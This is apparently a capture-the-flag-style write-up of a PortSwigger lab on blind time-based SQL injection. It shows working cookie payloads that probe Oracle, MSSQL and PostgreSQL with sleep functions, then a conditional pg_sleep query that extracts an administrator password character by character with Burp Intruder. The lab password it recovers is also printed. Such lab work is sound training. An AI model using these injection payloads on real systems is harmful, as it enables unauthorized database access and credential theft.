 # Lab: Blind SQL injection with time delays and information retrieval

## 1.) Try different unconditional delay payloads to confirm vulnerability and discover database used
See cheatsheet for payloads: https://portswigger.net/web-security/sql-injection/cheat-sheet#time-delays

If a delay occurs, I can use that payload in a conditional statement to find the password
<br>
<br>
### Oracle payload:  

`Cookie: TrackingId=gqxGeE4W4frNCHhy' || (dbms_pipe.receive_message(('a'),10))--;`

Result: No delay executed ❌ 
<br>
<br>

### Microsoft SQL payload:

`Cookie: TrackingId=gqxGeE4W4frNCHhy' + (WAITFOR DELAY '0:0:10')--;`

Result: No delay executed ❌ 
<br>
<br>

### postgreSQL Payload:

`Cookie: TrackingId=gqxGeE4W4frNCHhy' || (SELECT pg_sleep(10))--;`

Result: Delay executed ✅


## 2.) We know that site uses postgreSQL... add conditional statement to glean information with conditional delay

Constructing payload:

`Cookie: TrackingId=gqxGeE4W4frNCHhy' || (SELECT CASE WHEN (1=1) THEN pg_sleep(30) ELSE NULL END from users where username='administrator' and SUBSTRING(password, 1, 1) = 'a')--;`
<br>

`from users where...` is the query for the information that I actually want. If this portion of the sql evaluates to true, then the conditional delay is executed.

## 3.) Send payload to intruder with clusterbomb attack and see which request response times match the sleep time
Intruder payload #1 will be the numbers 1-20, since we know that the password is 20 chars in length (will denote this as `<X>`).

Intruder payload #2 will be a-zA-Z0-9 to cover all numbers and letters of the alphabet (will denote this as `<Y>`).

 The clusterbomb attack will look like: `...(password, <X>, 1) = '<Y>')--;`

 This will iterate over each index of the password with a-zA-Z0-9. If the attack successfully finds the value of the password at the specified index, it will trigger a time delay

 Look at the response times for the intruder requests, if the response time matches the sleep delay + your normal response time, you have a match!

## Side Note
 My internet was being stressed too heavily by intruder, so I had to reduce concurrent requests to 1, and change the sleep duration to 5 seconds. Before this change, I was getting drastically different response times, even when a delay was not triggered - it made it impossible to derive the password by response times

 If your response times are all over the place, try reducing the number of concurrent requests. If that doesn't work, also try increasing your sleep time



Password:
`f584iir99hxtrf3gco37`

